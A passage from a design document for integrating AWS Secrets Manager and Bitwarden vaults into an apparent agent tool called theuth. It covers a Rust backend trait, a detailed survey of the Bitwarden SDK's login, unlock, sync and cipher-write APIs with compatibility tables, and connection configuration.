   cached for `list_ttl_secs` (60) for the UI and the `list` tool only, never for `get`.
5. Approval replay on resume (`HonourAnswer`, 219 §9) is unchanged. A replayed Allow for a call that
   references an external secret still runs `resolve_external` fresh.

## 4. The backend trait

`crates/secrets/src/external.rs` (new module, in `secrets`; no SDK types cross it):

```rust
#[async_trait::async_trait]
pub trait ExternalBackend: Send + Sync + 'static {
    /// `aws` | `bw`; the placeholder namespace and the always-ask key's backend.
    fn backend(&self) -> &'static str;
    /// The connection name (`[a-z0-9-]{1,32}`).
    fn conn(&self) -> &str;
    /// Cheap, no I/O: what the UIs show and what `resolve` checks first.
    fn status(&self) -> ConnStatus;
    /// Network check (AWS: `ListSecrets` max 1; Bitwarden: sync when unlocked, prelogin when not).
    async fn probe(&self) -> Result<ConnStatus, ExtError>;

    /// Metadata only. `query` = substring on name/folder/collection; `cursor` pages.
    async fn list(&self, q: ListQuery) -> Result<ListPage, ExtError>;
    /// One entry's metadata: versions, stages, fields (names and kinds, never values).
    async fn describe(&self, r: &ExtRef) -> Result<ExtEntry, ExtError>;
    /// The value at `r` (+ key/field), with the version it came from. Only `resolve_external`
    /// and `secret_external_import` call this.
    async fn get(&self, r: &ExtRef) -> Result<(Zeroizing<String>, ExtVersion), ExtError>;
    /// A new entry at `loc`; Err(Exists) if it exists. Returns the reference to use.
    async fn create(&self, loc: &Location, value: Value<'_>) -> Result<(ExtRef, ExtVersion), ExtError>;
    /// Replace the value at `r` (AWS: a new version; Bitwarden: edit the field in place).
    /// `expected` = the version the caller saw (AWS VersionId / Bitwarden revision date).
    /// A mismatch is `Conflict`, never a blind overwrite.
    async fn update(&self, r: &ExtRef, value: Value<'_>, expected: Option<&ExtVersion>) -> Result<ExtVersion, ExtError>;
    /// Delete `r` (D13). `Recoverable` = AWS recovery window / Bitwarden trash; `Permanent` only when
    /// the connection allows it (`allow_permanent_delete`), else Err(Denied). `expected` as in `update`.
    async fn delete(&self, r: &ExtRef, mode: DeleteMode, expected: Option<&ExtVersion>) -> Result<DeleteOutcome, ExtError>;
    /// Undo a recoverable delete (AWS `RestoreSecret`, Bitwarden restore from trash). UI only.
    async fn restore(&self, r: &ExtRef) -> Result<ExtVersion, ExtError>;
    /// Lock (Bitwarden: drop keys; AWS: drop the cached SdkConfig credentials). Idempotent.
    async fn lock(&self);
}

pub enum DeleteMode { Recoverable { days: Option<u8> /* AWS 7..=30 */ }, Permanent }
pub struct DeleteOutcome { pub recoverable_until: Option<String> /* RFC 3339; None = gone */ }

pub struct ExtRef { pub conn: String, pub id: String, pub key: Option<String>, pub back: u8 }
pub enum Value<'a> { Plain(&'a str), Json(Vec<(&'a str, &'a str)>) }  // AWS JSON k/v; Bitwarden: Plain only
pub enum Location {
    Aws { name: String, kms_key_id: Option<String>, description: Option<String>, json_key: Option<String> },
    Bw  { org: Option<OrgId>, collections: Vec<CollectionId>, folder: Option<FolderId>,
          kind: BwKind /* Login | SecureNote */, item_name: String, field: BwField,
          username: Option<String> /* login, from a non-masked card field */, uri: Option<String> },
}
pub enum BwField { Password, Notes, Totp, Custom { name: String, hidden: bool } }

pub struct ExtVersion {
    /// AWS: VersionId (UUID). Bitwarden: the cipher's revision_date (RFC 3339).
    pub id: String,
    /// AWS: VersionStages (AWSCURRENT, AWSPREVIOUS, custom). Bitwarden: empty.
    pub stages: Vec<String>,
    pub changed: Option<String>,  // RFC 3339
}
pub struct ExtEntry {
    pub r#ref: String,            // the placeholder body, `bw/personal/2f1c…` / `aws/prod/db/main`
    pub name: String,             // AWS name / Bitwarden item name
    pub kind: String,             // `string` | `json` | `binary` | `login` | `secure_note` | `card` | `identity` | `ssh_key`
    pub keys: Vec<String>,        // AWS JSON keys (names only, from a value fetch the user approved, else empty) / Bitwarden: `password`, `username`, `totp`, `notes`, `field:<name>`
    pub location: String,         // AWS: region + KMS alias; Bitwarden: `org / collection / folder`
    pub versions: Vec<ExtVersion>,// AWS: up to 5 by VersionIdsToStages; Bitwarden: one
}

pub enum ConnStatus { Ready, Locked, LoggedOut, Expired { hint: String }, Error(String), Unsupported(String) }

#[derive(Debug)]
pub enum ExtError {
    UnknownConn, Locked, LoggedOut, Expired(String) /* AWS SSO; Bitwarden refresh token */,
    NotFound, Exists, Conflict { current: ExtVersion }, Denied(String) /* IAM / org permission */,
    Unsupported(String) /* binary secret; card item; Vaultwarden endpoint */, Timeout, Network(String), Sdk(String),
}
```

- **Errors as text.** `Display` strings are model-facing and must never contain a value. `Sdk(_)`
  strings from the SDK are scrubbed with `redact` before display, defence in depth.
- **Timeouts.** Every method runs under `tokio::time::timeout(secrets.external.timeout_secs = 20)`.
  The AWS client also sets `TimeoutConfig` (connect 5 s, operation 15 s); the Bitwarden HTTP client
  is the SDK's `reqwest` (§5.1). `Timeout` maps to `ToolOutput::err("<ref>: <backend> did not answer
  in 20 s")`.
- **Versions.**
  - AWS: `ExtVersion.id` = `VersionId`. `update(expected)` passes the expected `AWSCURRENT` id by
    calling `DescribeSecret` first. AWS has no conditional put, so a race between that describe and
    the `PutSecretValue` is possible; it is documented, and the old version survives as
    `AWSPREVIOUS` anyway.
  - Bitwarden: `ExtVersion.id` = `revision_date`. The server rejects an edit whose `lastKnownRevisionDate`
    is stale (§5.6), which is a real compare-and-swap.
- **Registration.** `secrets::RegisterExternal(Arc<dyn ExternalBackend>)` and
  `UnregisterExternal { backend, conn }` (37 §11's `RegisterBackend` shape, renamed because the
  local vault does *not* become one of these). 37 §11 had the vault `impl Backend`; that is dropped.
  The vault's API is sync and richer (`back` 1..=4, expiry, `set_if_version`), so forcing it behind
  an async network trait would cost every local expansion an await for nothing.

## 5. Bitwarden SDK surface at `sdk@2b06afa`

Read from a shallow clone at the pin. Nothing was built. Paths are relative to the SDK repo root.
**Bottom line:** the SDK does the crypto, token renewal, and the HTTP for cipher, folder and Send
create/edit/delete and for `/sync`. It does **not** put ciphers, collections, organisations or org
keys into its stores after a sync (theuth does, §5.4). Its password login cannot answer new-device
verification and hard-codes a device id (theuth does its own token request, §5.2). The in-repo `bw`
CLI does not create or edit items yet, so it is no reference for vault writes (§5.6). It is a
reference for Sends (§12.2).

**B0 amendment (2026-11-25, `docs/design/221-as-built-B0.md`).** The sequence ran against
Vaultwarden 1.37.5. Where the subsections below differ, the as-built doc wins:
- no `bitwarden-pm`: `ClientBuilder` + `PasswordManagerTokenHandler` and the sub-crates directly
  (§5.1, §5.10); `bitwarden-core` needs feature `internal`;
- the user id comes from the API key's `client_id` (`user.<uuid>`), not the JWT (§5.3, G5);
- Vaultwarden 1.37.5 accepted an edit whose `lastKnownRevisionDate` was 1.1 s stale, so §4's and
  §5.6's "real compare-and-swap" is coarse: `update`/`delete` compare `expected` against the
  freshly synced revision themselves first;
- the SDK pins `argon2 = "=0.6.0-rc.8"`; `crates/share` is held at that rc to share the slot.

### 5.1 Client construction, custom servers

- `ClientSettings { identity_url, api_url, user_agent, device_type, device_identifier,
  bitwarden_client_version, bitwarden_package_type, transport }`, `#[serde(default, deny_unknown_fields)]`.
  The defaults are `https://identity.bitwarden.com` and `https://api.bitwarden.com`, user agent
  `"Bitwarden Rust-SDK"` and `DeviceType::SDK` (`sdk@2b06afa:crates/bitwarden-core/src/client/client_settings.rs#L23-L66`).
- URLs are used as given; no path is appended (`sdk@2b06afa:crates/bitwarden-core/src/client/builder.rs#L113`,
  `#L155`). theuth derives `<base>/api` and `<base>/identity` for self-hosted, as `bw` does
  (`sdk@2b06afa:crates/bw/src/auth/mod.rs#L36-L41`). EU cloud = `https://api.bitwarden.eu` /
  `https://identity.bitwarden.eu` (`sdk@2b06afa:crates/bw/src/tools/receive.rs#L57-L62`).
- `PasswordManagerClient(pub bitwarden_core::Client)`. `PasswordManagerClient::new(Option<ClientSettings>)`
  installs `PasswordManagerTokenHandler`, which renews tokens on its own
  (`sdk@2b06afa:crates/bitwarden-pm/src/lib.rs#L78-L88`).
  - Its builder has no `with_state`. A custom `StateRegistry` means building with
    `bitwarden_core::ClientBuilder::with_state(..)` and wrapping the result, as `bw` does
    (`sdk@2b06afa:crates/bitwarden-core/src/client/builder.rs#L77-L105`,
    `crates/bw/src/main.rs#L229-L236`).
  - theuth does **not** need a custom registry. The default is `StateRegistry::new_with_memory_db`
    (`builder.rs#L103-L105`), which is what D12 wants.
- **Do not** use `bitwarden_core::Client::new`: its `NoopTokenHandler::set_tokens` panics on login
  (`sdk@2b06afa:crates/bitwarden-core/src/auth/auth_tokens.rs#L126-L128`).
- Sub-clients used: `auth()`, `crypto()`, `vault()` (→ `ciphers()`, `folders()`, `totp()`,
  `collections()`), `collections()`, `sends()`, `sync()`, `is_unlocked()` and `unlock()`
  (`sdk@2b06afa:crates/bitwarden-pm/src/lib.rs#L136-L286`,
  `crates/bitwarden-vault/src/vault_client.rs#L22-L60`).
- **HTTP.** The SDK builds its own `reqwest` 0.13 client: rustls with `rustls-platform-verifier`, and
  `https_only(true)` in non-debug builds. It installs the ring provider with `let _ = install_default()`
  (`sdk@2b06afa:crates/bitwarden-api-base/src/client.rs#L11-L33`). theuth installs aws-lc-rs first
  (`crates/theuth/src/main.rs#L1584-L1586`), so the SDK's call is a no-op. Consequences:
  - a plain-HTTP self-hosted server fails in release builds (`unsupported`, said on the connection
    form);
  - a private CA must be in the OS trust store;
  - the HTTP client is not injectable (only `with_middleware`), so §6.2's CA-file idea is dropped.
- **Client headers.** theuth's `ClientSettings` set `device_type` to the CLI type of this OS and
  `bitwarden_client_version` to `BW_CLIENT_VERSION` (`crates/secrets-bitwarden/src/lib.rs`). The SDK
  puts them into both HTTP clients' default headers: `Device-Type`, `Bitwarden-Client-Name: cli`
  (derived from the device type), `Bitwarden-Client-Version`, `User-Agent: theuth`
  (`sdk@2b06afa:crates/bitwarden-core/src/client/builder.rs#L206-L257`). theuth's own requests
  (prelogin, grants, SSO prevalidate, email code) go through `BwBackend::request` on the SDK's
  identity client, so they carry the same headers. Bitwarden cloud refuses a token request without
  `Bitwarden-Client-Version` (`bitwarden/server:src/Identity/IdentityServer/RequestValidators/ClientVersionValidator.cs#L31-L54`)
  and, for V2-encryption accounts, one below 2026.10.1 (`src/Core/KeyManagement/Constants.cs#L5`;
  `invalid_client_version` reads "This Bitwarden account needs a newer client than this theuth build
  speaks …"). Vaultwarden checks neither. `BW_CLIENT_VERSION` is the client release of the SDK pin
  (`BW_SDK_REV`; 2b06afa = `@bitwarden/sdk-internal@0.2.0-main.1259`, the 2026.11.1 line) and is
  bumped with sdk-internal; a unit test fails when the workspace rev moves without it.

### 5.2 Login

- **API key** (default, D12). `pm.0.auth().login_api_key(&ApiKeyLoginRequest { client_id,
  client_secret, password })` (`sdk@2b06afa:crates/bitwarden-core/src/auth/auth_client.rs#L117-L122`,
  `crates/bitwarden-core/src/auth/login/api_key.rs#L18-L93`).
  - It does `client_credentials` with scope `api` and stores the tokens.
  - It then **initialises user crypto in the same call** from the token response's
    `userDecryptionOptions.masterPasswordUnlock`, which carries the KDF and the wrapped user key
    (`api_key.rs#L41-L63`). So "login" and "unlock" are one call that needs the master password, and
    **no prelogin endpoint is used**: the Vaultwarden-risky `POST /accounts/prelogin/password` is
    never called on this path.
  - Renewal re-runs `client_credentials` from the stored login method; there is no refresh token
    (`sdk@2b06afa:crates/bitwarden-core/src/auth/renew.rs#L32-L40`).
  - No 2FA and no new-device check apply to `client_credentials`.
- **Password.** `login_password(&PasswordLoginRequest { email, password, two_factor })`
  (`auth_client.rs#L109-L114`, `crates/bitwarden-core/src/auth/login/password.rs#L17-L152`). It
  exists, but theuth does **not** use it:
  - it always calls `prelogin` → `POST /accounts/prelogin/password` (`password.rs#L28`;
    `crates/bitwarden-api-identity/src/apis/accounts_api.rs#L34-L35`);
  - it hard-codes `DeviceType::ChromeBrowser`, device id `b86dd6ab-…` and name `firefox` for every
    user of the SDK (`password.rs#L94-L100`), which collides on the server's known-device list;
  - it has no `newDeviceOtp` field, and the new `bitwarden-auth` login has the variant commented out:
    `// TODO: add new device verification response`
    (`crates/bitwarden-auth/src/login/models/login_response.rs#L14-L15`).

  theuth therefore makes the token request itself (§5.12 gap G7) with a per-connection random
  device id. 2FA arrives as `TwoFactorProviders` (`crates/bitwarden-core/src/auth/login/response/two_factor/two_factor_providers.rs#L12-L26`)
  and is answered with `TwoFactorRequest { token, provider, remember }` (`login/two_factor.rs#L67-L90`).
  An email code is triggered with `send_two_factor_email` → `POST /two-factor/send-email-login`
  (`two_factor.rs#L34-L65`). v1 supports Authenticator (TOTP), Email and YubiKey OTP (a typed
  token). Duo and WebAuthn need a browser and are refused with a message pointing to API-key login.
- **KDF.** `Kdf::{PBKDF2 { iterations }, Argon2id { iterations, memory, parallelism }}`
  (`sdk@2b06afa:crates/bitwarden-crypto/src/keys/kdf.rs#L128-L137`). The SDK derives; theuth only
  carries the struct.

### 5.3 Unlock, lock, keys in memory

- `crypto().initialize_user_crypto(InitUserCryptoRequest { user_id, kdf_params, email,
  account_cryptographic_state, method, upgrade_token })` with
  `InitUserCryptoMethod::MasterPasswordUnlock { password, master_password_unlock }`
  (`sdk@2b06afa:crates/bitwarden-core/src/key_management/crypto_client.rs#L53-L67`,
  `crates/bitwarden-core/src/key_management/crypto.rs#L82-L173`). This is used after theuth's own
  password-login token request (§5.2) and after a restart on that path.
- **Org keys.** `initialize_org_crypto(InitOrgCryptoRequest { organization_keys })`
  (`crypto.rs#L424-L455`), fed from `profile.organizations[].key` after each sync
  (`crates/bitwarden-api-api/src/models/profile_organization_response_model.rs#L227`).
- **User id.** `create` / `edit` / `encrypt` need it (`MissingUserId`), and core login never sets it.
  Pass `user_id` in the request, or `pm.0.internal.init_user_id`
  (`crates/bitwarden-core/src/client/internal.rs#L249`). It is taken from the access token's `sub`,
  as `bw` does (`crates/bw/src/main.rs#L198-L275`).
- **Exportable user key.** `get_user_encryption_key() -> B64` (`crypto_client.rs#L141-L143`) and
  `InitUserCryptoMethod::DecryptedKey` make `remember_unlock` (D12) possible. The B64 is
  not `Zeroizing`.
- **Lock.** `unlock().lock()` → `KeyStore::clear()`
  (`sdk@2b06afa:crates/bitwarden-unlock/src/unlock_client.rs#L243-L258`,
  `crates/bitwarden-crypto/src/store/mod.rs#L144-L151`). theuth also drops the whole
  `PasswordManagerClient`, so the memory DB (ciphers, still encrypted) goes with it.
- **Zeroization.**
  - Symmetric keys are `ZeroizeOnDrop`
    (`sdk@2b06afa:crates/bitwarden-crypto/src/keys/symmetric_crypto_key.rs#L82`, `#L110`), and so is
    the store backend (`store/backend/mod.rs#L21`).
  - `bitwarden-crypto` installs a `#[global_allocator]` `ZeroizingAllocator` unless the feature
    `no-memory-hardening` is on (`crates/bitwarden-crypto/src/lib.rs#L11-L13`). theuth already
    defines its own (`crates/theuth/src/main.rs#L28-L29`; two allocators do not link), so
    **`bitwarden-pm/no-memory-hardening` is mandatory**. Freed SDK memory is then not wiped (§11).
  - Request structs carry passwords as plain `String`s.

### 5.4 Sync and the cipher store (gaps G1–G4)

- `SyncClient::sync(SyncRequest { force, exclude_subdomains }) -> Result<bool, SyncError>`. It does
  `GET /accounts/revision-date`, then `GET /sync`, and hands `&SyncResponseModel` to the registered
  `SyncHandler`s. It **returns no data** (`sdk@2b06afa:crates/bitwarden-sync/src/sync_client.rs#L118-L241`,
  `crates/bitwarden-sync/src/handler.rs#L27-L38`).
- The built-in handlers cover folders (`crates/bitwarden-vault/src/folder/folder_sync_handler.rs#L12-L48`),
  Sends (`crates/bitwarden-send/src/send_sync_handler.rs#L38-L60`), policies and account crypto
  state. There is **no cipher, collection, organisation or org-key handler**.
- `pm.sync()` builds a fresh `SyncClient` per call (`sync_client.rs#L249-L253`), so handlers
  registered on an earlier instance are lost. theuth keeps **one** `SyncClient` per connection.
- On that client it registers `FolderSyncHandler`, `SendSyncHandler` and its own
  `TheuthSyncHandler::on_sync`, which:
  1. converts `ciphers` with `Cipher::try_from(CipherDetailsResponseModel)`
     (`sdk@2b06afa:crates/bitwarden-vault/src/cipher/cipher.rs#L2013`) and `replace_all`s them into
     `platform().state().get::<Cipher>()` (`crates/bitwarden-state/src/repository.rs#L43-L63`);
  2. calls `initialize_org_crypto` from `profile.organizations`;
  3. keeps `collections` (`Collection::try_from`, `crates/bitwarden-collections/src/collection.rs#L106`)
     and the organisation names in theuth's own per-connection map, because `Collection` and
     `ProfileOrganization` have no filler in the SDK
     (`crates/bitwarden-organizations/src/organizations_client.rs#L11-L30`).
- **Freshness.** Sync on unlock, before every `create` / `update` / Send create, and before a read
  when the last sync is older than `sync_max_age_secs` (the revision-date check makes a no-change
  sync one small request).

### 5.5 List and decrypt

- `ciphers().list() -> DecryptCipherListResult { successes: Vec<CipherListView>, failures }` and
  `get(CipherId) -> CipherView` read the repository from §5.4
  (`sdk@2b06afa:crates/bitwarden-vault/src/cipher/cipher_client/get.rs#L90-L118`,
  `cipher.rs#L640-L645`).
- `CipherType`: Login, SecureNote, Card, Identity, SshKey, BankAccount, DriversLicense, Passport
  (`cipher.rs#L89-L98`). `revision_date: DateTime<Utc>` on `Cipher` / `CipherView` /
  `CipherListView` (`cipher.rs#L354`, `#L512`, `#L606`) is `ExtVersion.id`.
- Fields:
  - `LoginView { username, password, uris, totp, … }`
    (`sdk@2b06afa:crates/bitwarden-vault/src/cipher/login.rs#L345-L360`);
  - `FieldView { name, value, r#type: FieldType, linked_id }`, with
    `FieldType { Text, Hidden, Boolean, Linked }` (`crates/bitwarden-vault/src/cipher/field.rs#L24-L74`);
  - `SecureNoteView` (`secure_note.rs#L55-L57`).
- `#totp` uses `vault().totp()` to generate the current code from the seed (`vault_client.rs#L22-L60`).
- v1 references Login and SecureNote; other types are `Unsupported` for `get` but listed.
- Item names, folder names and field names are decrypted for `list` / `describe`. That is metadata
  (§11 item 2). Field **values** are decrypted only inside `get`.

### 5.6 Create and edit: the SDK does the HTTP

- `ciphers().create(CipherCreateRequest { organization_id, collection_ids, folder_id, name, notes,
  favorite, reprompt, r#type, fields, archived_date }) -> CipherView`. It encrypts (with a fresh
  per-cipher key) and calls `POST /ciphers/create` when `collection_ids` is non-empty, else
  `POST /ciphers`. It then writes the repository
  (`sdk@2b06afa:crates/bitwarden-vault/src/cipher/cipher_client/create.rs#L44-L198`).
- `ciphers().edit(CipherEditRequest { id, …, revision_date, … })` → `PUT /ciphers/{id}`. The original
  must be in the repository (`edit.rs#L61-L92`, `#L197`, `#L274-L275`, `#L383-L406`). The request
  carries `last_known_revision_date` (`cipher.rs#L197`, `#L273`, `#L459`), which the server checks.
  This is the compare-and-swap `ExtBackend::update(expected)` relies on (§4).
- `move_to_organization` (`cipher_client/mod.rs#L299-L306`), `share_cipher` → `PUT /ciphers/{id}/share`,
  and `update_collection` → `PUT /ciphers/{id}/shared-folders_v2` exist. v1 does not use them: with `write_scope: personal_and_org` (D20) an organisation item is
  created directly with `organization_id` + `collection_ids`, which `create` already handles.
  Delete and soft delete exist (`delete.rs#L96-L135`); v1 does not call them (D13).
- **`bw` is no reference for item writes:** `CreateCommands::Item(_) => unimplemented!("Create item
  not implemented yet")` (`sdk@2b06afa:crates/bw/src/command/create.rs#L31`), and `List` / `Edit` /
  `Delete` are `todo!()` (`crates/bw/src/main.rs#L122-L126`).

### 5.7 Folders, collections, organisations

- `folders().create(FolderAddEditRequest)` → `POST /folders`
  (`sdk@2b06afa:crates/bitwarden-vault/src/folder/create.rs#L66-L77`). `edit` → `PUT /folders/{id}`.
  `list` reads the repository the folder handler fills.
- `collections()` is decrypt and encrypt only: no HTTP and no repository
  (`sdk@2b06afa:crates/bitwarden-collections/src/collection_client.rs#L45-L101`). The destination
  picker lists collections from the §5.4 map. Creating a collection is out of scope; a missing one
  is an error on the card.
- Organisations come from `profile.organizations` in the sync response (G4).

### 5.8 State and persistence

- `Repository<V>` (`get`, `list`, `set`, `set_bulk`, `remove`, `remove_all`, `replace_all`) and
  `StateRegistry::{new_with_memory_db, new_with_db, register_client_managed, get, value, wipe}`
  (`sdk@2b06afa:crates/bitwarden-state/src/repository.rs#L43-L63`,
  `crates/bitwarden-state/src/registry.rs#L44-L127`).
- theuth uses the memory DB only. Nothing the SDK holds touches disk.
- What theuth persists itself, in `meta` (D11):
  - client id and secret;
  - for password login, the refresh token that theuth's own token request (G7) returns. That token is
    handed to the SDK with `TokenHandler::set_tokens` plus `USER_LOGIN_METHOD = Username{..}`, so
    the SDK renews from then on
    (`sdk@2b06afa:crates/bitwarden-auth/src/token_management/password_manager_token_handler.rs#L17-L112`,
    `crates/bitwarden-core/src/client/login_method.rs#L22-L35`).
- `rusqlite` (`bundled`) is always compiled on native targets
  (`sdk@2b06afa:crates/bitwarden-state/Cargo.toml#L40`), even with the memory DB.
  - Range: `>=0.37, <0.42`.
  - theuth's lock already has `rusqlite 0.38.0` on `libsqlite3-sys 0.36.0` (`Cargo.lock#L18883-L18884`,
    `#L11881-L11882`), which is inside the range, so the two can unify under one `links = "sqlite3"`.
  - B0 confirms the resolver picks it.

### 5.9 Licence, versions, stability

- `LICENSE#L1-L8`: "your choice of GPL v3.0 OR BITWARDEN SOFTWARE DEVELOPMENT KIT LICENSE". The
  crates say `license = "GPL-3.0-only OR LicenseRef-Bitwarden-SDK"`
  (`sdk@2b06afa:crates/bitwarden-pm/Cargo.toml#L14`). `bitwarden_license/` is SDK-licence-only, and
  the `bitwarden-license` feature stays **off**.
- Workspace version `4.0.0`, edition 2024, `rust-version = 1.89.0`, with exact inter-crate pins
  (`=4.0.0`) (`sdk@2b06afa:Cargo.toml#L6-L16`).
- `bitwarden-pm`: "Internal crate for the bitwarden crate. Do not use." (`crates/bitwarden-pm/Cargo.toml#L4`).
- `README.md#L11-L12`: "The password manager interface is unstable and will change without
  warning." Hence D3's pin and the one-module wrapper.

### 5.10 What `secrets-bitwarden` depends on

- **Dependencies.**
  - `bitwarden-pm` (features: `no-memory-hardening`; **not** `uniffi`, `wasm`, `cli` or
    `bitwarden-license`), `bitwarden-core`, `bitwarden-vault`, `bitwarden-send`, `bitwarden-sync`,
    `bitwarden-crypto`, `bitwarden-collections`, `bitwarden-api-api` and `bitwarden-api-identity`;
  - all with `git = "https://github.com/bitwarden/sdk-internal", rev = "2b06afa3b3579af116cd60f83d65b9e411fd2a56"`.
- **Weight.** `bitwarden-pm` pulls in fido, exporters, importers (keepass), generators (zxcvbn),
  send, policies and more unconditionally (`sdk@2b06afa:crates/bitwarden-pm/Cargo.toml#L72-L102`),
  plus `rsa`, `ed25519-dalek`, `ml-dsa`, `argon2` and `rayon`.
  - B0 measures it, and tries the lighter set (core + vault + send + sync + crypto without `pm`).
  - `PasswordManagerClient` is only a newtype over `Client` plus sub-client constructors
    (`sdk@2b06afa:crates/bitwarden-pm/src/lib.rs#L78-L286`), so dropping `pm` costs a few
    constructor calls.
  - The feature (D3) keeps the default build free of all of it.

### 5.11 Vaultwarden and self-hosted compatibility

| Area | Endpoint the SDK / theuth calls | Risk | Mitigation |
|---|---|---|---|
| API-key login | `POST /connect/token` `client_credentials`, `userDecryptionOptions.masterPasswordUnlock` in the response | Medium: older Vaultwarden omits `masterPasswordUnlock` → "logged in, crypto not initialised" (`password.rs#L55-L79` has the same shape) | Detect `!is_unlocked()` after login → fall back to G7's prelogin + `MasterPasswordUnlock` with the token's `Key`; B5's Vaultwarden suite pins the version tested |
| Password prelogin | `POST /accounts/prelogin/password` | High on older Vaultwarden | theuth's own login (G7) tries it, then the legacy `POST /accounts/prelogin` |
| Sync | `GET /accounts/revision-date`, `GET /sync` (`sdk@2b06afa:crates/bitwarden-api-api/src/apis/sync_api.rs#L29`) | Low | — |
| Create / edit | `POST /ciphers`, `POST /ciphers/create`, `PUT /ciphers/{id}`; per-cipher `key`, `encryptedFor` | Medium: per-cipher keys need a recent Vaultwarden | B5 suite; error text names the server version |
| Revoke on remove | `/identity/connect/revocation` | Not on every server | theuth forgets the tokens either way (§10) |
| Sends | `POST /sends`, `PUT /sends/{id}`, `DELETE /sends/{id}` | Low for text Sends; `authType` email-OTP is new | §12.6 |
| Plain HTTP | any | Release builds are `https_only` (§5.1) | Connection form refuses `http://` with the reason |

### 5.12 Gaps theuth fills itself

| Gap | What theuth calls | Cite |
|---|---|---|
| G1 cipher store after sync | `Cipher::try_from` + `Repository<Cipher>::replace_all` in `TheuthSyncHandler` | `sdk@2b06afa:crates/bitwarden-vault/src/cipher/cipher.rs#L2013` |
| G2 org keys | `initialize_org_crypto` from `profile.organizations[].key` | `crates/bitwarden-core/src/key_management/crypto.rs#L424-L455` |
| G3 collections | `Collection::try_from` + `collections().decrypt_list`; listing via `collections_api().get_user()` = `GET /collections` if not in sync | `crates/bitwarden-api-api/src/apis/collections_api.rs#L29-L105` |
| G4 organisations | `profile.organizations` from the sync response (or `accounts_api().get_profile()` = `GET /accounts/profile`) | `crates/bitwarden-api-api/src/apis/accounts_api.rs#L55-L56` |
| G5 user id | JWT `sub` → `InitUserCryptoRequest.user_id` / `init_user_id` | `crates/bitwarden-core/src/client/internal.rs#L249` |
| G6 one `SyncClient` | keep the instance; register handlers once | `crates/bitwarden-sync/src/sync_client.rs#L249-L253` |
| G7 password login | own `POST {identity}/connect/token` (password grant, per-connection device id, `twoFactorToken`/`twoFactorProvider`, `newDeviceOtp`); legacy prelogin fallback; then `set_tokens` + `USER_LOGIN_METHOD` + `MasterPasswordUnlock` | the SDK's request helper is `pub(crate)`: `crates/bitwarden-core/src/auth/api/request/mod.rs#L33-L45` |
| G8 Send share URL | build `<web-vault>/#/send/<access_id>/<url-b64 key>` | §12.2 |

G7 is the only place theuth speaks Bitwarden's protocol directly. It is about 150 lines, sits behind
`login: password`, and is milestone B5b, so API-key users never run it.

## 6. Connections

### 6.1 AWS

```yaml
secrets:
  connections:
    prod:                          # CONN
      backend: aws
      profile: work-admin          # a name from AwsProfiles.profiles; null = default chain
      region: eu-west-1            # required: Secrets Manager is regional
      kms_key_id: alias/app        # optional default for create
      prefix: app/                 # optional: list/browse scope (a ListSecrets name filter)
```

- **Profiles.** `AwsProfiles::load` / `from_sdk` (`crates/agent/src/aws.rs#L31-L51`) move to a new
  small crate `crates/aws-profiles`, used by both `agent` and `secrets-aws`. `ListAwsProfiles` stays
  in `agent` as a thin wrapper, so the RPC (`crates/agent/src/rpc_settings.rs#L164-L168`) is
  unchanged. Selection for a connection is **independent** of `agent.aws_profile` (Bedrock): one can
  infer on `personal` and read secrets from `work-admin`.
- **Client.** One `aws_sdk_secretsmanager::Client` per connection, built from
  `aws_config::defaults(BehaviorVersion::latest()).profile_name(p).region(r).timeout_config(…).load()`.
  It is never built through `std::env` mutation, the rule `Auth.aws_profile` already follows
  (`crates/agent/src/supervisor.rs#L12327-L12328`).
- **SSO expiry.** The credentials error on an expired SSO token maps to
  `ExtError::Expired("run aws sso login --profile work-admin, then retry")`. The connection shows
  `Expired` in the UI. theuth does not run `aws sso login` itself: the device flow needs a browser,
  and this is the user's own tool. A refreshable token is refreshed by `aws-config` silently.
- **Credentials in theuth.** None. The AWS credential chain is the user's (`~/.aws`), as Bedrock's
  is today. Nothing goes in the vault or in `meta`.

### 6.2 Bitwarden

```yaml
secrets:
  connections:
    personal:
      backend: bw
      server: us                   # us | eu | self_hosted
      base_url: null               # self_hosted: https://vault.example.org
      api_url: null                # override; default <base>/api (us: https://api.bitwarden.com)
      identity_url: null           # override; default <base>/identity (us: https://identity.bitwarden.com)
      email: me@example.org        # shown on the unlock card; prelogin (KDF) needs it
      login: api_key               # api_key | password
      lock_after_idle_secs: 900    # 0 = lock only on quit; the unlock card reappears on next use
      sync_max_age_secs: 300       # a read older than this syncs first (§5.4)
      default_destination: { folder: "theuth", org: null, collection: null }
```

Lifecycle of a connection:

```
LoggedOut ──login(api key | password+2FA)──▶ Locked ──unlock(master password)──▶ Ready
   ▲                                          ▲   │                                  │
   └──────── logout / refresh token dead ─────┘   └──── lock (idle, quit, user) ◀───┘
```

- **Login, API key (default).** The user pastes `client_id` / `client_secret` (Account settings ›
  Security › Keys › View API key) into a masked card once. Both go to `meta` as
  `ext/bw/<conn>/client_id` and `ext/bw/<conn>/client_secret`, sealed with the engine key (D11).
  - With this method, **"unlock" is a fresh `login_api_key` with the typed master password**. One SDK
    call authenticates and initialises crypto from the token response's KDF and wrapped key (§5.2).
  - So the states collapse to `LoggedOut` (no stored client secret) and `Locked` → `Ready`.
  - Token renewal re-runs `client_credentials` in the SDK. There is no refresh token to keep.
  - No 2FA and no new-device verification apply.
- **Login, password (B5b).** Email + master password + optional 2FA code (Authenticator, Email,
  YubiKey OTP; Duo and WebAuthn are refused because they need a browser) and an optional new-device
  OTP, all on one masked card that grows a step when the server asks. theuth's own token request
  (G7, §5.12) runs this, with a random per-connection device id kept in `meta`. Only the refresh
  token is stored (`ext/bw/<conn>/refresh_token`). Later unlocks rebuild the client from it
  (`set_tokens`) and run `MasterPasswordUnlock` with the typed master password, so a restart needs
  no new 2FA.
- **Unlock** turns the master password on the unlock card into the user key (KDF PBKDF2 or Argon2id,
  run by the SDK, §5.2), then org keys after the first sync (§5.4). The master password lives in a
  `Zeroizing<String>` from the RPC to the SDK request, where it becomes a plain `String`
  (§5.3, §11). The user key stays in the SDK client's key store, in memory.
- **Lock.** After `lock_after_idle_secs` without a `get` / `create` / `update`, on engine quit, on
  the user's Lock button, and with `lock_on_sleep` (default `true`) on sleep or screen lock (D20). Lock calls `unlock().lock()` and
  drops the SDK client; the `meta` credentials stay.
- **KDF.** The SDK handles both PBKDF2 and Argon2id. theuth never picks parameters. Argon2id at
  Bitwarden's defaults (64 MiB, 3 iterations, 4 lanes) takes about a second; unlock runs on
  `spawn_blocking`.
- **Self-hosted TLS.** The SDK's own `reqwest` with `rustls-platform-verifier` (§5.1). A private
  CA must be trusted by the OS. `http://` is refused in release builds (`https_only`), and the form
